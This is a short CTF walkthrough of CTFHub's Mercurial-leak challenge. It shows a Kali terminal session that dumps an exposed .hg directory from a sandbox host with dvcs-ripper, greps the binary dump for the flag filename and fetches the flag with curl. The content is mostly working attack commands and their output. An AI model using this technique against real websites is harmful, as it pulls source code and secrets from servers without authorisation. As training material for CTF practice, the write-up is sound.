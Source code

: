 ------

#### HG泄露

```bash
┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper]
└─$ ./rip-hg.pl -u http://challenge-e37705d9e5375944.sandbox.ctfhub.com:10800/.hg
[i] Getting correct 404 responses
[i] Finished (2 of 12)
                                                                            
┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper]
└─$ tree .hg
.hg
├── 00changelog.i
├── dirstate
├── last-message.txt
├── requires
├── store
│   ├── 00changelog.i
│   ├── 00manifest.i
│   ├── data
│   ├── fncache
│   └── undo
├── undo.branch
├── undo.desc
└── undo.dirstate

3 directories, 11 files
                                                                            
┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper]
└─$ cat .hg/last-message.txt                             
add flag                                                                            
┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper]
└─$ grep -a -r flag                                  
.git/hooks/fsmonitor-watchman.sample:           # return the fast "everything is dirty" flag to git and do the
�O��L▒c.!flag_11i206259.index.htmlindex.htmlnormalfile$sha1$bf45c36a4dfb7337normaldir()infinity��å~%���Á�root�$�8�@3▒
.svn/wc.db:�����2▒      flag_116206259.txt      index.html
index.html6259.txt
hg-decode.pl:      ( $head->{'flags'},
.hg/last-message.txt:add flag
.hg/dirstate:index.htmln��!d���flag_393953.txt
.hg/store/00manifest.i:Yf��������H�tw������m'�Ȉ�*x�-�1�@�>�@)-<�▒M������x�1<�v�Ǣ�2K){�Z3�s�&ӱf▒A����?6[�B�
                              6Ta�(��1$�Ü*YE������<W��ĩ���jV��⸉�8229flag_393953.txt7870e1473e78ed89644b65acab26c0f3e213f7a8
.hg/store/undo:data/flag_393953.txt.i0
.hg/store/fncache:data/flag_393953.txt.i
.hg/undo.dirstate:index.htmla��������flag_393953.txt
                                                                            
┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper]
└─$ curl http://challenge-e37705d9e5375944.sandbox.ctfhub.com:10800/flag_116206259.txt
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.16.1</center>
</body>
</html>
                                                                            
┌──(tyd㉿Kali)-[~/ctf/dvcs-ripper]
└─$ curl http://challenge-e37705d9e5375944.sandbox.ctfhub.com:10800/flag_393953.txt
ctfhub{f90b6c76f97124cd83e38e9b}
```
